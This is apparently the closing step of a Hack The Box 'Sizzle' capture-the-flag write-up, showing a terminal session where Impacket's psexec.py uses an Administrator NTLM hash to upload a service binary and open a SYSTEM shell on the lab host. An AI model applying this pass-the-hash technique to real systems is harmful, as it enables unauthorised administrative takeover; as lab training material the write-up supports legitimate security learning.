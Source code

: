 ```bash
root@kali:~/CTF/HTB/Boxes/Sizzle# psexec.py Administrator@10.10.10.103 -hashes aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.103.....
[*] Found writable share ADMIN$
[*] Uploading file zfiadosf.exe
[*] Opening SVCManager on 10.10.10.103.....
[*] Creating service JmWA on 10.10.10.103.....
[*] Starting service JmWA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

We Own the Box!!
